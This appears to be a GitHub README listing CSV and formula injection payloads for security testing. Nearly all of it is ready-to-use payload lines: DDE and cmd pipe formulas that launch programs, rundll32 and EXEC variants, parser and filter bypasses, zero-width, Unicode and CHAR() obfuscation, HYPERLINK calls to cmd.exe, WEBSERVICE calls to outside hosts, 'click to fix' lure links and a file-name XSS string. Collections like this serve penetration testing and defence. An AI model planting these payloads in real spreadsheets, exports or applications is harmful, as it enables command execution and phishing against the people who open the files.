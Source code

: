 # CSV Injection Payload Collection

This is a curated list of CSV injection payloads used during security testing. The list includes basic to advanced variations, obfuscation tricks, and bypass techniques for different scenarios including formula injection, DDE attacks, and file path abuse.

---

## 🧪 Basic Payloads

```csv
=rundll32|'URL.dll,OpenURL calc'!A
-1-rundll32|'URL.dll,OpenURL calc'!A
=rundll32|'URL.dll,OpenURL notepad'!A
=rundll32|'URL.dll,OpenURL https://google.com'!A1
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|'/C calc'!A1@example.com
=2+5+cmd|' /C calc'!A0
+hack(cmd|'/c calc.exe'!A
=hack/cmd|'/c calc.exe'!A
-2+3+cmd|'/C calc'!A1
-1-cmd|'/C calc'!'A1'
--1-cmd|'/C calc'!'A1'
=cmd|'/C notepad'!'A1'
=cmd|'/C calc'!'A2'
=cmd|'/C mspaint'!'A2'
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

---

## 🧾 Older Excel Versions

```csv
DDE("cmd";"/C calc";"!A0")A0 
=EXEC("calc.exe")
```

---

## 🛠 rundll32 DLL Variants

```csv
=rundll32|'shell32.dll,ShellExec_RunDLL calc'!A1
=rundll32|'zipfldr.dll,RouteTheCall calc'!A1
=rundll32|'shell32.dll,Control_RunDLL timedate.cpl'!A1
=rundll32|'shell32.dll,Control_RunDLL appwiz.cpl'!A1
```

---

## 🌀 Abnormal Variations

```csv
=cmd|'/c calc'!'a2',
\t=\tc\tm\td\t|'/C notepad'!'A2',
=\ncmd|'/C calc'!A1
"=cmd|'/C calc'!'A1'"
```

---

## 🧩 Parse Breakers & Bypasses

### 🔹 Short Format Bypass

```csv
parsebreaker" ;,=cmd|'/C notepad'!'A1'
parsebreaker",=cmd|'/C notepad'!'A1''" ;,=cmd|'/C notepad'!'A2'
```

### 🔹 Polyglot / WAF Bypass

```csv
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',0x0D=cmd|'/C notepad'!'A3';=cmd|'/C notepad'!'A4'=cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
=cmd|'/C notepad'!'A0';=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2';-1-cmd|'/C notepad'!'A3';0x0D-1-cmd|'/C notepad'!'A4';=cmd|'/C notepad'!'A5'=cmd|'/C notepad'!'A6''" ;,=cmd|'/C notepad'!'A7'
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',\---1-cmd|'/C notepad'!'A3';@cmd|'/C notepad'!'A4'+cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
```

---

## 📛 Escaped or Newline Payloads

```csv
\---1-cmd|'/C calc'!'A1'
\t--1-cmd|'/C calc'!'A1'
\"--1-cmd|'/C calc'!'A1'
\n--4-cmd|'/C calc'!'A1'
\r=cmd|' /C calc'!A1
\0=cmd|' /C calc'!A1
\r\",;=cmd|' /C calc'!A1
```

---

## 🧼 Zero-Width Marker Obfuscation

```csv
\u200B=cmd|' /C calc'!A0
\u00A0=cmd|' /C calc'!A1
\u200B=cmd|' /C calc'!A1
```

---

## ☣️ Dangerous Without Formula

These values can trigger execution by just clicking the cell:

```csv
file:///C:/Windows/System32/calc.exe
```

---

## 🚫 If Pipe (`|`), `cmd`, or Slash (`/`) Are Blocked

```csv
+HYPERLINK("file:///C:/Windows/System32/notepad.exe")
+HYPERLINK(CHAR(34)&file:///C:/Windows/System32/notepad.exe&CHAR(34))
@HYPERLINK(CHAR(34)&"file:///C:/Windows/System32/notepad.exe"&CHAR(34))
=HYPERLINK(T("file:///C:/Windows/System32/cmd.exe"), "ClickMe")
@HYPERLINK(\"file:///C:/Windows/System32/notepad.exe\")
@HYPERLINK(""file:///C:/Windows/System32/notepad.exe"")
=HYPERLINK("http://google.com", "Error: click to fix")
=HYPERLINK("https://google-web-pen-testing.vercel.app/", "Error: click to fix")
+HYPERLINK(\"http:\"&CHAR(47)&CHAR(47)&\"bing.com\"&CHAR(47)&\"payload\")
=WEBSERVICE("http://google.com")
=WEBSERVICE("https://google-web-pen-testing.vercel.app/")
=WEBSERVICE("http://bing.com")
```

---

## 🔢 CHAR() Obfuscation Variants

```csv
@HYPERLINK(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(110)&CHAR(111)&CHAR(116)&CHAR(101)&CHAR(112)&CHAR(97)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))

@HYPERLINK("file:///C:/Windows/"&CHAR(83)&"ystem32/cmd.exe")

@HYPERLINK("file:///C:"&CHAR(47)&"Windows"&CHAR(47)&"System32"&CHAR(47)&"cmd.exe")

@WEBSERVICE(CHAR(104)&CHAR(116)&CHAR(116)&CHAR(112)&CHAR(115)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(119)&CHAR(119)&CHAR(119)&CHAR(46)&CHAR(103)&CHAR(111)&CHAR(111)&CHAR(103)&CHAR(108)&CHAR(101)&CHAR(46)&CHAR(99)&CHAR(111)&CHAR(109))
```

### chained payload
```csv
=HYPERLINK(CONCAT(CHAR(102),CHAR(105),CHAR(108),CHAR(101),CHAR(58),CHAR(47),CHAR(47),CHAR(47),CHAR(67),CHAR(58),CHAR(47),CHAR(87),CHAR(105),CHAR(110),CHAR(100),CHAR(111),CHAR(119),CHAR(115),CHAR(47),CHAR(83),CHAR(121),CHAR(115),CHAR(116),CHAR(101),CHAR(109),CHAR(51),CHAR(50),CHAR(47),CHAR(99),CHAR(109),CHAR(100),CHAR(46),CHAR(101),CHAR(120),CHAR(101)),"Open Command Prompt")
=T(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(99)&CHAR(109)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))

=HYPERLINK(G2,"Click Me")
```

#### example of a multi chained csv on multiple cells
![csvi-chained-example](images-examples/chained-csvi-example.png.png)

---

## 🧠 File Name Exploits

```csv
=HYPERLINK("google.com", "Error: click to fix") .csv
@SUM(1+1)+cmd|' C calc'!A0.jpg
"; alert('XSS');//.jpg
```

---

## 🌐 Unicode / Encoding Bypass

```csv
＝cmd|/C calc!A1
+cmd|/C calc!A1
\xEF\xBB\xBF\t=cmd|'/C calc'!A0
“＝cmd|'/C calc'!A0”
cmd|'/C calc'!A0,?
```

---

## 🧪 Payloads That Break Excel Logic

```csv
1e3
1e4
+1E+9
-123456
```

---

## 📚 Resources

- [HackTricks: CSV/Excel Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

---

